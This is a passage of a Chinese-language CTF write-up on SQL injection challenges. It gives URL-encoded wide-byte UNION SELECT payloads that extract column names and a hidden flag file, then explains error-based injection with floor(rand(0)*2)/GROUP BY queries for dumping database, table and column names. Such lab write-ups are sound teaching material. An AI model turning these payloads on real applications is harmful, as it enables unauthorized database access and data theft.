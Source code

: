 ```

# 查找pic的字段，'pic'=>0x706963
## 得到 id,picname,data,text 
/sqli6_f37a4a60a4a234cd309ce48ce45b9b00/images/dog1.jpg%bf%27%20union%20select%201,2,concat(group_concat(column_name)),4%20%20from%20information_schema.columns%20where%20table_name=0x706963%23
## 得到数据
/sqli6_f37a4a60a4a234cd309ce48ce45b9b00/images/dog1.jpg%bf%27%20union%20select%201,2,concat(group_concat(picname,0x7e),0x3a),4%20%20from%20pic%23
得到 dog1.jpg~,cat1.jpg~,flagishere_askldjfklasjdfl.jpg~:

```
在浏览器访问flagishere_askldjfklasjdfl.jpg即可得到flag。


## 6.ErrorBased 

- 猜测闭合字符
- 猜测列数
- 尝试得到显示位
- 得到数据库

题目是基于错误的，当在一个聚合函数，比如count函数后面如果使用分组语句就会把查询的一部分以错误的形式显示出来。
用到的报错语句为：
```
select 1,2,...,count(*),concat(0x3a,(注入代码),0x3a,floor(2*rand(0)))a FROM information_schema.tables GROUP BY a
如
select concat(0x3a,0x3a,(version()),0x3a,0x3a,floor(2*rand(0)))a,count(*) FROM information_schema.tables GROUP BY a

select count(*),concat(0x3a,0x3a,(database()),0x3a,0x3a,floor(2*rand(0)))a FROM information_schema.tables GROUP BY a
#可通过urllib.quote()将其转换成url参数输入
#得到Duplicate entry '::mydbs::1' for key 'group_key'


```
接下来爆表，替换注入代码即可：
```
UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database(); 
UNION SELECT TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA=database() LIMIT 0,1;
```

	select count(*),concat(0x3a,0x3a,(SELECT TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA=database() limit 0,1),0x3a,floor(2*rand(0)))a FROM information_schema.tables GROUP BY a

当前数据库的表依次为：`log`,`motto`,`user`

爆字段：
```
SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'tablename'
SELECT column_name FROM information_schema.columns WHERE table_name = 'tablename' limit 0,1
```
